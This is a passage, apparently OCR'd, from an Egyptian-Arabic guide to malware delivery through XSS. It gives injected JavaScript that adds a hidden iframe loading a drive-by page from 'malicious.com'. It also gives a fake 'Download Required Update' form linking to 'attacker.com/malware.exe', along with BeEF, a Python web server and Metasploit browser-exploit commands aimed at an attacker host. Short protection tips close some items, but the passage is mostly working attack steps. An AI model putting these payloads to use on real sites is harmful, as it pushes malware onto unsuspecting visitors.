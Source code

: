      - راقب حركة الشبكة لو فيها تحويلات غير متوقعة.

#### 3. **إضافة Iframe خبيث**
   - **إزاي بتحصل؟**
     - السكربت بيضيف iframe مخفي في الصفحة، والـ iframe ده بيحمل محتوى من موقع خبيث بينزّل برمجيات خبيثة تلقائيًا.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var iframe = document.createElement("iframe");
       iframe.src = "http://malicious.com/driveby";
       iframe.style.display = "none";
       document.body.appendChild(iframe);
       ```
       - `document.createElement("iframe")`: بيعمل iframe مخفي.
       - `iframe.src`: بيحدد موقع خبيث هيحمل منه المحتوى.
     - **إعداد الموقع الخبيث**:
       - زي قبل كده، استخدام BeEF:
         ```bash
         beef-xss
         ```
       - أو خادم ويب مع كود خبيث:
         ```bash
         python3 -m http.server 80
         ```
         - مع صفحة HTML تحتوي على exploit (زي JavaScript أو Flash exploits).
     - **إعداد Exploit**:
       - المهاجم ممكن يستخدم أداة زي **Metasploit** لإنشاء صفحة خبيثة:
         ```bash
         msfconsole
         use exploit/multi/browser/java_jre17_jmxbean
         set SRVHOST attacker_ip
         set SRVPORT 80
         exploit
         ```
         - الأمر ده بيعمل صفحة ويب بتستغل ثغرات Java في المتصفح.
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع تحميل iframes من مصادر غير موثوقة.
     - شفر المحتوى ونظف المدخلات.

#### 4. **إجبار المستخدم على تحميل ملف عبر فورم وهمي**
   - **إزاي بتحصل؟**
     - السكربت بيعمل فورم وهمي يخدع المستخدم إنه لازم ينزّل ملف (زي "تحديث برنامج").
     - لما المستخدم يضغط على زرار التحميل، بيتبعت لملف خبيث.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var fakeForm = document.createElement("div");
       fakeForm.innerHTML = '<form action="http://attacker.com/malware.exe">' +
                            '<h2>Download Required Update</h2>' +
                            '<input type="submit" value="Download Now">' +
                            '</form>';
       document.body.appendChild(fakeForm);
       ```
       - `innerHTML`: بيعمل فورم وهمي يطلب من المستخدم التحميل.
       - `action`: بيحدد لينك الملف الخبيث.
     - **إعداد سيرفر المهاجم**:
       - زي قبل كده، Apache أو Python:
         ```bash
         python3 -m http.server 80
         ```
       - مع ملف خبيث معمول بـ Metasploit: